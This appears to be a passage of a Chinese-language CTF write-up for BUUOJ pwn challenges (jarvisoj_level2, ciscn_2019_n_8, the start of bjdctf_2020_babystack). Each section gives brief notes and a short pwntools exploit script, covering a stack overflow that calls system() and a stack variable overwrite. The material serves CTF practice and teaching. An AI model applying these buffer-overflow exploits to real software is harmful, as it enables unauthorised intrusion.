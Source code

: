 ```python
p.sendline(payload)

p.recvuntil(b"passwd:")
p.sendline(str(0x10101010))

p.interactive()
```

## jarvisoj_level2
### 思路
32位函数调用传参

### exp
```python
from pwn import *

p = remote('node5.buuoj.cn',27981)

hint_addr = 0x804A024
system_addr = 0x8048320

payload = b'a'*(136+4)+p32(system_addr)+p32(0)+p32(hint_addr)

p.sendline(payload)

p.interactive()
```

## ciscn_2019_n_8
### 思路
覆盖`var[13]`成0x11即可

### exp
```python
from pwn import *

p = process("./ciscn_2019_n_8")
#p = remote("node5.buuoj.cn",25702)

payload = b'a'*52+p32(0x11)

p.recvuntil("name")
p.sendline(payload)

p.interactive()
```

## bjdctf_2020_babystack
### 思路
ret2text
